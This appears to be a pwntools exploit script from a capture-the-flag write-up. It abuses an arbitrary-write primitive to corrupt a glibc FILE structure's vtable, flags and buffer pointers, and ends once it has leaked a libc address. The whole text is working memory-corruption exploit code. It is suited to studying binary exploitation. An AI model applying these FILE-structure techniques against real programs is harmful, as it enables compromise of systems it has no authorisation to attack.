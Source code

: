 ```py

def trick(offt, data):
    io.sendlineafter(b"> ", b"2")
    io.sendlineafter(b"offset: ", str(offt).encode())
    io.sendlineafter(b"value: ", data)

def leave():
    io.sendlineafter(b"> ", b"0")

def write_ptr(ptr: bytes, offt: int, debug=True):
    for i in range(8):
        if ptr[i]:
            trick(offt + i, str(ptr[i]).encode())

def partial_write2(ptr: bytes, offt: int):
    for i in range(2):
        trick(offt + i, str(ptr[i]).encode())

def partial_write(ptr: bytes, offt: int):
    for i in range(1):
        trick(offt + i, str(ptr[i]).encode())

def leak_ptr(ptr: bytes) -> int:
    write_ptr(ptr, File._IO_write_base)
    
    dest = (int.from_bytes(ptr, byteorder="little")+8).to_bytes(8, byteorder='little')

    write_ptr(dest, File._IO_write_ptr)

    fflush()
    ret = pwn.u64(io.recv(8).ljust(8, b"\x00"))

    return ret

def main():
    # do_allocate
    partial_write(pwn.p8(0xa8), File.vtable)
    fflush()

    # _IO_file_underflow => _IO_default_pbackfail
    partial_write(pwn.p8(0x60), File.vtable)
    fflush()

    """
    int
    _IO_default_pbackfail (FILE *fp, int c)
    => not _IO_IN_BACKUP         0x0100
    => _IO_read_base == _IO_write_ptr
    => _IO_read_end == _IO_write_ptr + 8
    => _IO_write_end = right size
    """

    write_ptr(pwn.p64(0xfbad1800 | 0x8000), File.flags)

    partial_write(pwn.p8(0x70), File._IO_write_base)

    partial_write(pwn.p8(0x78), File._IO_write_ptr)
    partial_write(pwn.p8(0xa0), File.vtable)
    write_ptr(pwn.p64(1), File.fileno)
    fflush()

    leak = pwn.u64(io.recv(8).ljust(8, b"\x00")) - 0x2160c0 + 0x2d160
    pwn.log.info(f"libc: {hex(leak)}")
```